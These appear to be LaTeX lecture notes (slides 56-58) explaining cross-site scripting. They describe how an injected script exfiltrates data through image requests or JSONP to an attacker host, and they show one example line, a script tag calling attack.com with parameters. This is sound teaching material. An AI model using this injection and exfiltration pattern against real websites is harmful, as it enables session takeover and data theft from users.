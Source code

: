 \documentclass[10pt,a4paper]{report}
\begin{document}
\paragraph{Slide 56:} We have a good server and a good browser and the browser has opened a page at that server, the attacker is trying to insert code into the page. If the attacker wants to attack good.com, he has much more power if he can let a script execute in good.com than in a different tab.\\
If you succeed at injecting a script, you can get information very easily. A script can include in the HTML page an additional HTML element (e.g. an image). The browser will then automatically try to load that image (do a GET). The attacker can choose the URL and add parameters. This is an easy way to send out information to the attacker.
Even if the SOP policy is forbidding you to look at responses (which it does), you can bypass it (JSONP). You'll load a script: \\
<script src="http://attack.com?<parameters>></script>\\
The browser will send a request to attack.com. attack.com wants to send back information to the script. You can have it return something like
Process(<response>) $\rightarrow$ function call.\\
The script that the attacker has injected gives him the ability to choose the URL and add parameters. attack.com sends back a process function call and two-way communication is set up. The attacker can then do two-way communication.\\
This was a flaw in the SOP, but it was very useful. It's now thought of as a development technique (Google Maps): Google sends scripts and does bidirectional communication with the shown script). This way you can create mashup application. This vulnerability has become a feature, but it makes a risk a a bit higher. 

\paragraph{Slide 57:} Once you have this, you can do whatever you want (whatever the user can do on good.com, you can do). This kind of script injection is a very devastating attack. 

\paragraph{Slide 58:} Countermeasures: the first two (sub)countermeasures are no good here, additional countermeasures are needed.
\end{document}
